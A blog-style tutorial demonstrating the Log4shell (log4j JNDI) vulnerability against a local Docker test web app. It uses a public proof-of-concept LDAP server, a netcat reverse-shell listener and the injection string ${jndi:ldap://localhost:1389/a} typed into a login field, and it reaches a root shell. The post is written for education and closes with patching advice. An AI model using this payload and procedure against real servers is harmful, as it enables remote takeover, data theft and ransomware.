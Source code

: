 ```yaml
---
title: "Exploiting Log4shell"
categories:
  - Hacking
header:
  image: assets/images/hack.jpg

---
```


This article is intended to show the Log4shell exploit in action. If you're unfamiliar with what Log4shell is, [please read this article](https://www.freshprinceofhacking.com/general/Log4Shell-Vulnerability/). Essentially, we're going to have a test web application set up, along with the actual exploit that has been made ready to show as proof of concept. Let's get hacking!

### Scenario

We've just discovered a web application that is vulnerable to the Log4shell exploit. We want to be able to get a reverse shell on the webserver in order to control the server remotely. Once we do that, we can then continue to perform whatever hacking is necessary to achieve our end goal (data exfiltration, deploy crypto mining malware or ransomware, etc.). 

### Concept

Log4shell is a vulnerability recently discovered in the log4j java library. Log4j is a logging framework that records various events in a given application that can be read by a system administrator. These events can include user input, error messages and system routines. Log4j also utilizes a feature called lookups, which can be used to retrieve data from remote locations. If done correctly, a hacker can craft a special string that log4j will read, interpolate and execute code from a remote server that the attacker owns. The Java Naming and Directory Interface (JNDI) is the specific lookup that we will target to exploit this vulnerability.

### Tools Used

* Operating System: Linux (Pop-OS)
* Netcat: utility to read and write data across networks
* Python3: programming language used to compile exploit
* Docker: containerizing software that holds the vulnerable app
* Proof of Concept Github page: [Log4shell POC](https://github.com/kozmer/log4j-shell-poc)

If you're following along while reading, I'm going to assume you have everything downloaded and installed correctly after this point. 

### The Attack

Here is the web application we will be attacking:

![WebApp1]({{ site.url }}{{ site.baseurl }}/assets/images/webapp1.png)

It is a simple page with login credential fields. Remember, we want to be able to pass a string to log4j to query. User input is a great way to do that. Therefore the login credential fields will be our attack vector. 

There are only 2 things that we need to run: One is going to be the github poc script, which will create an LDAP server for us and set up the "malicious code" that log4j will execute on it. The other running piece is going to be a netcat listener that will receive the connection and start a reverse shell once the malicious code has been executed. Let's run the poc script from the github page:

![Server]({{ site.url }}{{ site.baseurl }}/assets/images/server.png)

We can see that an LDAP server has been created for us, and they even gave us a string that we can use to input into the login fields. Let's also start up our netcat listener in a different terminal:

![Netcat]({{ site.url }}{{ site.baseurl }}/assets/images/netcat.png)

The netcat listener is listening over port 9001, which is the listening port we gave to the exploit in the command when we set it up in the preivous section. This means that when we paste the string into the login field, the listener we set up should recognize that port 9001 is going to be used to complete the connection and spawn a reverse shell. Now everything should be ready to perform the exploit. The only thing we need to do is take the string ${jndi:ldap://localhost:1389/a} and paste it into the login field. Here is what that looks like:

![WebApp2]({{ site.url }}{{ site.baseurl }}/assets/images/webapp2.png)

All we've done is add the string to the username field and random text to the password field. Once we hit login, the exploit should work. Now let's turn our attention back to the poc terminal where we initiated the exploit:

![Server2]({{ site.url }}{{ site.baseurl }}/assets/images/server2.png)

Now we see that there was an LDAP reference which took the string we inputted into the field that log4j interpolated and then ultimately ran the code that's in "Exploit.class" hosted on our LDAP server. This is good! It means it worked as far as we know. However, let's check our netcat listener to see if we see any results:

![Netcat2]({{ site.url }}{{ site.baseurl }}/assets/images/netcat2.png)

Success!! We see a "Connection received on 127.0.0.1 54386". Ultimately, this means our reverse shell worked, and we now can execute commands on the webserver remotely. I've already chosen 3 simple but powerful commands that give us some information about the server that hosts the web application. 

The first command is "ls": This gives us information about files and folders in the current directory we are in. Ls also has other options which can show read/write/execute permissions on those files/folders.

The second command is "pwd": This command tells us exactly where we are on the machine. It gives information about the current directory and path of that directory. In this example I am in the /usr/local/tomcat directory.

The last command is "whoami": This command tells you the username of the current user. It may not seem like much, but as you can see it spit out "root" when we typed it in. This means I am the root user on this server, which basically allows me full permission to read/write/execute files and invoke privileged commands that normal users wouldn't have. You can think of it like an administrator credential. Often times when machines are exploited, the hacker will not have root access. This is where privilege escalation techniques will be used. 

The hack is complete!

### Conclusion

We can see that this exploit did not require a ridiculous amount of technical expertise to complete. Although the LDAP server and malicious code were created for us, setting these up manually is not hard to do. You can even push the exploit over other protocols such as DNS. So there are a lot of possibilities and creative ways that you can go about exploiting this vulnerability. You can bet that attackers will be trying to execute this in a stealthy manner that wouldn't be normally detected by security tools. 

As stated in my article on Log4shell, the problem is that there are millions upon millions of vulnerable devices, which more than likely aren't all patched. Hackers are constantly combing the internet for webservers and other devices that may be vulnerable to the exploit. It only takes one device in a network to be vulnerable that could be the downfall to a major part of the security posture of the organization. Only time will tell how bad the fall out from this vulnerability will be. There is already [evidence of this exploit being used in the wild](https://www.advintel.io/post/ransomware-advisory-log4shell-exploitation-for-initial-access-lateral-movement) to leverage ransomware, cryptomining and botnet activity across enterprise networks. In the meantime, the best thing we can do individually is to continue to adhere to best security practices; (including but not limited to) updating software when made available, use 2FA with strong passwords and be aware of phishing or suspicious emails.

Thank you for reading! 
